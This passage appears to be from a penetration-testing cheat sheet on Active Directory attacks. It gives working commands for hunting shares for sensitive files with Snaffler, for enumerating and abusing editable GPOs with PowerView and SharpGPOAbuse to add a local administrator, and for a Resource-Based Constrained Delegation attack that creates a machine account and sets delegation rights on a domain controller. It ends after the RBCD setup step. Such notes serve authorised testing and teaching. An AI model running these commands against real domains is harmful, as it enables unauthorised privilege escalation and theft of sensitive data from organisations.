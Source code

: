 ## Snaffler
- We can use [Snaffler](https://github.com/SnaffCon/Snaffler) on a domain-joined host or in a domain-user contect to enumerate hosts inside a domain for shares and readable directories and automatically hunt for files that might contain sensitive information
```powershell
./Snaffler.exe -s -d domain.local -o snaffler.log -v data
```

# Abusing Permissions
## GPO
- We can display the current GPOs using `Get-DomainGPO` from `powerview.ps1`. To then display only a specific GPO we can use `-identity`
```zsh
Get-DomainGPO
Get-DomainGPO | select displayname
Get-DomainGPO -Identity "Default Domain Controllers Policy"
```
- Bloodhound should show us if we have control over a GPO on the outbound control attribute. To check manually, we can use `Get-DomainGPO` in combination with `Get-ObjectAcl`
```powershell
#Get the SID of a group or user
$sid=Convert-NameToSid "Domain Users"

#Check permissions on GPOs
Get-DomainGPO | Get-ObjectAcl | ?{$_.SecurityIdentifier -eq $sid}

#Convert the found GPOs back to a readable name (The CN field will be the GUID of the GPO). 
Get-GPO -Guid <GUID>
```
- If we have edit rights on a GPO we can use `SharpGPOAbuse.exe` from [FSecureLabs](https://github.com/FSecureLABS/SharpGPOAbuse) (Precompiled version in `/usr/share/windows-resources/binaries`)
```powershell
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount charlotte --GPOName "Default Domain Policy"
```
- Perform a `gpupdate` afterwards, check with `net localgroup administrator` and re-authenticate 

## RBCD attack
- Resource-Based Constrained Delegation attack can be used to escalate privileges if we have `GenericAll` permissions on a computer object. 
- From Windows, we can use a combination of [Powermad](https://github.com/Kevin-Robertson/Powermad) , `PowerView.ps1` and `Rubeus.exe` to achieve this
```powershell
#Import Powermad and create a new machine account
import-module .\Powermad.ps1
New-MachineAccount -MachineAccount attackersystem -Password $(ConvertTo-SecureString 'Summer2018!' -AsPlainText -Force)

#Retrieve the SID of the new machine account with PowerView
import-module .\Powerview.ps1
$ComputerSid = Get-DomainComputer attackersystem -Properties objectsid | Select -Expand objectsid

#Build generic ACE with our machine account as principal
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)

#Using PowerView we add our machine account to msDS-AllowedToActOnBehalfOfOtherIdentity of the target computer
Get-DomainComputer DC01.corp.local | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```